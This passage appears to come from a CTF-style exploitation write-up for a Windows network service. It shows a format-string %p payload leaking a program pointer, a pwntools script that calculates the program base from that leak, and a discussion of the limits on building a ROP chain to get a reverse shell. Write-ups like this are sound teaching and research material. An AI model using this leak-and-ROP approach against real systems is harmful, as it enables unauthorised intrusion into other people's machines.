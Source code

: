 ```
Could not find key!

Choose an option:
1. Set key
2. Activate key
3. Exit

1
Enter a key: %p
Invalid key format

Choose an option:
1. Set key
2. Activate key
3. Exit

2
Checking key: 00007FF7B94C0660 <------- leak
, Comment:

Could not find key!
```

Moving forward. A partial pwntools script for leaking looks like this:

```python
log.info("leaking program base")
p.sendlineafter(b"Exit", b"1")
p.sendafter(b"Enter a key:", b"%pX-FE9A1-500-A270-0194-U3RhbmRhcmQgTGljZW5zZQ==")
p.sendlineafter(b"Exit", b"2")

p.readuntil(b"Checking key: ")
leak = int(p.readuntil(b"X", drop = True).decode(), 16)
pbase = leak - 0x20660
log.info("program base: " + hex(pbase))
```

### obstacles, obstacles everywhere
Now we have everything needed to start building a ropchain, which does something usable. This is the main step where I had to put a lot of time (which is normal if you do not have a ton of good rop gadgets), trying to build small chains to move values into registers and to find a strategy how to get a reverse shell or anything helping to compromise the box. Let’s list the obstacles we face:

- we can only use functions already present in the IAT (Import Address Table ), because we have no idea about exact OS version or ntdll base address leak available
- registers needed for windows api calling convention (rcx, rdx, r8, r9) are really hard to fill with the gadgets we can find in the binary
- communication is over a socket, so anything in and out needs to use the send() and recv() functions, which would need a leak of the socket handle (I saw no way to get this, and guessing it like in Linux is not an option here)

Normally in this case I would try to use ``VirtualProtect()`` to make the stack executable and then jump into some off-the-shelf-shellcode, but we do not have ``VirtualProtect()`` in our IAT, because the program does not use it. We can only find ``VirtualAlloc()`` and some WSA2 communication functions, stuff like ``memcpy`` but nothing real usable.
